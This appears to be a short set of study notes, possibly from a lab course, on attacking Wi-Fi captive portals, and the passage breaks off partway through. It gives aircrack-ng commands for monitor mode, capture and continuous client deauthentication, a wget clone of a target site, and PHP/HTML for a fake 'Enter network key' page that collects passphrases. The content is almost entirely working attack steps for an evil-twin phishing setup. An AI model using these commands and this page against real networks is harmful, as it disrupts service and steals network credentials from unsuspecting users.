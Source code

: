 ```
```

# Attacking Captive Portals
## Discovery
```
sudo airmon-ng check kill
sudo airmon-ng start wlan0 
sudo airodump-ng -w discovery --band abg --output-format pcap wlan0mon

# Deauthenticating Clients
sudo aireplay-ng -0 0 -a 00:0E:08:90:3A:5F wlan0mon
```

## Building the Captive Portal
```
sudo apt install apache2 libapache2-mod-php
#cloning captive portal
wget -r -l2 https://www.megacorpone.com

#Captive Portal login page
<!DOCTYPE html>
<html lang="en">

	<head>
		<link href="assets/css/style.css" rel="stylesheet">
		<title>MegaCorp One - Nanotechnology Is the Future</title>
	</head>
	<body style="background-color:#000000;">
		<div class="navbar navbar-default navbar-fixed-top" role="navigation">
			<div class="container">
				<div class="navbar-header">
					<a class="navbar-brand" style="font-family: 'Raleway', sans-serif;font-weight: 900;" href="index.php">MegaCorp One</a>
				</div>
			</div>
		</div>

		<div id="headerwrap" class="old-bd">
			<div class="row centered">
				<div class="col-lg-8 col-lg-offset-2">
					<?php
						if (isset($_GET["success"])) {
							echo '<h3>Login successful</h3>';
							echo '<h3>You may close this page</h3>';
						} else {
							if (isset($_GET["failure"])) {
								echo '<h3>Invalid network key, try again</h3><br/><br/>';
							}
					?>
				<h3>Enter network key</h3><br/><br/>
				<form action="login_check.php" method="post">
					<input type="password" id="passphrase" name="passphrase"><br/><br/>
					<input type="submit" value="Connect"/>
				</form>
				<?php
						}
				?>
				</div>

				<div class="col-lg-4 col-lg-offset-4 himg ">
					<i class="fa fa-cog" aria-hidden="true"></i>
```